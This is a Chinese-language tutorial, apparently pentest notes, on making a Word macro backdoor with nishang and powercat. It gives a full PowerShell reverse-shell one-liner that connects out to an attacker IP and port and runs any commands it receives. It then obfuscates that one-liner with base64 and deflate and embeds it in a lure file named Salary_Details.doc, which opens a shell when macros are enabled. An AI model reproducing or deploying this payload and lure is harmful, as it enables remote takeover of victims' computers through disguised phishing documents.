


#使用powershell制作word宏后门
##使用[nishang](https://github.com/samratashok/nishang)脚本制作
制作过程：
下载[powercat](https://github.com/besimorhino/powercat)  **powershell的nc**
加载powercat  
```
PS G:\github\Pentest\powershell\powercat-master> . .\powercat.ps1
PS G:\github\Pentest\powershell\powercat-master> powercat
You must select either client mode (-c) or listen mode (-l).
```
之后就可以使用powercat了
开启监听
```
PS G:\github\Pentest\powershell\powercat-master> powercat -l -v -p 4444
详细信息: Set Stream 1: TCP
详细信息: Set Stream 2: Console
详细信息: Setting up Stream 1...
详细信息: Listening on [0.0.0.0] (port 4444)
```
加载Invoke-PowerShellTcp并执行
```
PS G:\github\Pentest\powershell\nishang-master\Shells> . .\Invoke-PowerShellTcp.ps1
PS G:\github\Pentest\powershell\nishang-master\Shells> Invoke-PowerShellTcp -Reverse -IPAddress 127.0.0.1 -Port 4444
```
执行结果如下图：


可以直接获取一个powershell的shell。
复制Invoke-PowerShellTcpOneLine.ps1  client代码，如下：
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.52.129",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
使用Invoke-Encode.ps1进行编码,编码之前记得要修改ip以及自己要监听的端口
```
PS G:\github\Pentest\powershell\nishang-master\Shells> cd ..\Utility\
PS G:\github\Pentest\powershell\nishang-master\Utility> . .\Invoke-Encode.ps1
PS G:\github\Pentest\powershell\nishang-master\Utility> Invoke-Encode -DataToEncode '$client = New-Object System.Net.Sockets.TCPClient("192.1
68.52.129",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$da
ta = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendb
ack + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream
.Flush()};$client.Close()' -IsString -PostScriptCommand
Encoded data written to .\encoded.txt
Encoded command written to .\encodedcommand.txt
```
复制encodedcommand.txt的代码如下：
```
Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String('TVHNasJAEL4X+g5DSMsuNUtMG6mGCm1oi1CiNEIP4mFNBpMao5gRFfXdu5uY1L3MMHx/M2tGWYo5wQsEuLOGs1+MCMJDQbgUAZIIV9ECqRBjf+SXSGa0u45od56Fq4rTNVpP6nHPLGiDcqmEzEpSfCKF5YxxbzI7EE6mU1PXQoFsITqu++ie7o722dslaYaMmammV0LiG2XMKnwL7BZUrfjCfE4J52DlCDY/emYsSSoeu1rAGh/WGMgl1quMcU/iNfQHg/c8WsVpPueXfKqtXbRJqjfBPJ7JaKFFU9xD5eD079twguGWrIoGV1AHyuQ18QGMUQiGqmy9i7kYSUr0sA/GhaMMtfyEdDC8ZJr2emXGMtubzsT+HZoTi59NSsgaHZW76evzNNiPbFskjJ+9+lf8bFUg47c3fw==')))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();
```
加载Out-Word.ps1并生成后门，这里要注意，`要把payload里面的单引号多加一个单引号！`
```
PS G:\github\Pentest\powershell\nishang-master\Utility> . ..\Client\Out-Word.ps1
PS G:\github\Pentest\powershell\nishang-master\Utility> Out-Word -Payload 'powershell -c Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String(''TVHNasJAEL4X+g5DSMsuNUtMG6mGCm1oi1CiNEIP4mFNBpMao5gRFfXdu5uY1L3MMHx/M2tGWYo5wQsEuLOGs1+MCMJDQbgUAZIIV9ECqRBjf+SXSGa0u45od56Fq4rTNVpP6nHPLGiDcqmEzEpSfCKF5YxxbzI7EE6mU1PXQoFsITqu++ie7o722dslaYaMmammV0LiG2XMKnwL7BZUrfjCfE4J52DlCDY/emYsSSoeu1rAGh/WGMgl1quMcU/iNfQHg/c8WsVpPueXfKqtXbRJqjfBPJ7JaKFFU9xD5eD079twguGWrIoGV1AHyuQ18QGMUQiGqmy9i7kYSUr0sA/GhaMMtfyEdDC8ZJr2emXGMtubzsT+HZoTi59NSsgaHZW76evzNNiPbFskjJ+9+lf8bFUg47c3fw=='')))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();'
Saved to file G:\github\Pentest\powershell\nishang-master\Utility\Salary_Details.doc
0
PS G:\github\Pentest\powershell\nishang-master\Utility>
```
执行word以后，则会反弹shell`前提是启用宏`

